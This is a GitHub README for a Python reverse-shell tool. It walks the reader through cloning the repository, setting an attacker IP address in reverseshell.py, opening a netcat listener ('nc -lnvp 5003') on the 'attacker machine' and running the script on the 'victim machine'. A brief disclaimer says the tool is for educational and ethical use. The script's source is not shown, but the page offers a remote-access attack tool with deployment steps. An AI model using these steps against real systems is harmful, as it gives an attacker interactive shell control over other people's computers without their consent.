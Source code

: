 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 reverseshell.

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use this reverseshell?:snake:

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- Now you need to navigate to the ReverseShell directory.
- You will find a file called >> reverseshell.py:

- IMPORTANT: You need to change the ipv4 address in the script.

### After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- On the vivtim machine:
```
python3 reverseshell.py 
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---

